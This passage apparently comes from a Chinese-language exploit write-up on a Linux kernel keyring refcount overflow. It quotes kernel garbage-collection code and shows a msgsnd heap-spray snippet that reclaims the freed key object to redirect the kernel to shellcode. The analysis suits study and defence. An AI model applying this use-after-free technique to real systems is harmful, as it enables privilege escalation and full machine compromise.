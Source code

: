```
            //...
            
found_unreferenced_key:
	    kdebug("unrefd key %d", key->serial);
	    rb_erase(&key->serial_node, &key_serial_tree);
	    spin_unlock(&key_serial_lock);
            
	    list_add_tail(&key->graveyard_link, &graveyard);//添加到链表
	    gc_state |= KEY_GC_REAP_AGAIN;
	    goto maybe_resched;                           //跳转到maybe_resched，进行释放
            
            //other code
            //...
            
maybe_resched:
            //other code
	    //...
	    if (!list_empty(&graveyard)) {
		kdebug("gc keys");
		key_gc_unused_keys(&graveyard);//内部调用kmem_cache_free()放回slab缓存
	    }
            
            return;  
        }
}
```

贴一段gdb中，usage上溢为0后，key_gc_unused_keys()释放key时的状态：

那么现在不就转化成了Use-After-Free了吗，从gdb和源码看struct key结构大小等于0xb8，如果现在申请一个大小0xb8的内核对象，并且内容可控的话，就有机会控制内核去执行用户态的一段shellcode了。

EXP中选择使用Linux IPC机制，发送消息msg来尝试占用原keyring对象的空间:

```
if ((msgid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1)
{
    perror("[-] msgget");
    exit(1);
}

for (i = 0; i < 256; i++)
{
    if (msgsnd(msgid, &msgp, sizeof(msgp.mtext), 0) == -1)
    {
        perror("[-] msgsnd");
        exit(1);
    }
}
```

用户态的msgsnd()在内核中会调用do_msgsnd()，do_msgsnd()根据用户态传递的buffer和size参数调用load_msg(mtext, msgsz)，load_msg()先调用alloc_msg(msgsz)创建一个msg_msg结构体，然后拷贝用户空间的buffer紧跟msg_msg结构体的后面，相当于给buffer添加了一个头部，因为msg_msg结构体大小等于0x30，因此用户态的buffer大小等于0xb8 - 0x30


[jekyll-gh]: https://github.com/mojombo/jekyll
[jekyll]:    http://jekyllrb.com
